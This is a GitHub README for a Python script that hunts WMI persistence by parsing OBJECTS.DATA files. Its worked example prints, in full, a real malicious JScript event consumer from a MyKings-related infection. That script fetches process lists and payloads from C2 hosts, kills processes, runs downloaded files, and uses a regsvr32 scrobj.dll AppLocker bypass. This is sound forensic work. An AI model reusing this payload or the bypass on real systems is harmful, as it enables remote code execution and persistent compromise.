 # WMI_Persistence
A repo to hold some scripts pertaining WMI (Windows implementation of WBEM) forensics

## Usage:
python WMIPers.py Name_of_File (Usually OBJECTS.DATA)

## Description:
This script is meant to find WMI persistence by directly parsing the contents of OBJECTS.DATA files thus not requiring access to the user's WMI namespaces. It doesn't require any particular dependencies other than standard Python libraries. The script works fine on both Windows and Linux systems. 
The code organizes all the data into a tidy <i>dict object</i> which will grow in complexity as I continue parsing relevant forensic information found in the WMI database file. This will also allow for an easy export to multiple file formats. 

## Example: The case of the Chinese RAT
### Finding malicious persistence script installed after exploiting DoublePulsar SMBv1.0 vulnerability
Many organizations were victims of multiple malware pieces that were weaponized via DoublePulsar. An investigation that I performed recently lead me to find an attack chain that exploited SMBv1.0 vulnerabilities and deployed code that achieved persistence via the use of WMI. Basically it runs a JScript that downloads a list of processes possibly belonging to old versions of the Chinese RAT and attempts to "taskkill" them clearing up the space for the new malicious EXE. It then posts information about running processes to the C2 server and attempts to download the RAT by using a known AppLocker bypass technique that involves registering an ActiveX component via the use of regsvr32.exe.

- A breakdown of how this malware works can be found here: https://www.cyphort.com/eternalblue-exploit-actively-used-deliver-remote-access-trojans/ (seems that the authors forgot however to include the WMI part of this malware)
- For a repo that features examples of how to implement AppLocker SCT bypass please see [here](https://github.com/subTee/SCTPersistence) and [a backdoor example here](https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302)

#### First we run the script
> python WMIPers.py OBJECTS.DATA

#### It will retrieve the general metadata
> --> Binding 48 | FilterToConsumerType: ActiveScriptEventConsumer | EventFilterName: uckmm2_filter | EventConsumerName: uckmm2_consumer

#### And then present the contents of the EventConsumers and EventFilters

> --> EventFilter: select * from timerevent where timerid="uckmm2_itimer"

> --> EventConsumer: 
var toff=3000;var url1 = "http://wmi.mykings.top:8888/kill.html";http = new ActiveXObject("Msxml2.ServerXMLHTTP");fso = new ActiveXObject("Scripting.FilesystemObject");wsh = new ActiveXObject("WScript.Shell");http.open("GET", url1, false);http.send();str = http.responseText;arr = str.split("\r\n");for (i = 0; i < arr.length; i++) { t = arr[i].split(" "); proc = t[0]; path = t[1]; dele = t[2]; wsh.Run("taskkill /f /im " + proc, 0, true);if (dele == 0) { try { fso.DeleteFile(path, true); } catch (e) {} } };var locator=new ActiveXObject("WbemScripting.SWbemLocator");var service=locator.ConnectServer(".","root/cimv2");var colItems=service.ExecQuery("select * from Win32_Process");var e=new Enumerator(colItems);var t1=new Date().valueOf();for(;!e.atEnd();e.moveNext()){var p=e.item();if(p.Caption=="rundll32.exe")p.Terminate()};var t2=0;while(t2-t1<toff){var t2=new Date().valueOf()}var pp=service.get("Win32_Process");var url="http://wmi.mykings.top:8888/test.html",http=new ActiveXObject("Microsoft.XMLHTTP"),ado=new ActiveXObject("ADODB.Stream"),wsh=new ActiveXObject("WScript.Shell");for(http.open("GET",url,!1),http.send(),str=http.responseText,arr=str.split("\r\n"),i=0;arr.length>i;i++)t=arr[i].split(" ",3),http.open("GET",t[0],!1),http.send(),ado.Type=1,ado.Open(),ado.Write(http.responseBody),ado.SaveToFile(t[1],2),ado.Close(),1==t[2]&&wsh.Run(t[1]);pp.create("regsvr32 /s shell32.dll");pp.create("regsvr32 /s WSHom.Ocx");pp.create("regsvr32 /s scrrun.dll");pp.create("regsvr32 /s c:\\Progra~1\\Common~1\\System\\Ado\\Msado15.dll");pp.create("regsvr32 /s jscript.dll");pp.create("regsvr32 /u /s /i:http://js.mykings.top:280/v.sct scrobj.dll");pp.create("rundll32.exe c:\\windows\\debug\\item.dat,ServiceMain aaaa");

## References: 
The script was inspired by the work of Graeber about WMI persistence mechanisms:
https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf

## Future Improvements: 
1) Scan all hosts in your network via SMB using the script
2) Export results to CSV
3) Scan multiple WMI Databases inside a folder
4) Extract more forensically relevant info from OBJECTS.DATA (like SCCM application execution remnants)
5) Decrypt execution values like the especific time setup for timer-based event triggers
6) Parse the contents of MOF files and link them to OBJECTS.DATA findings

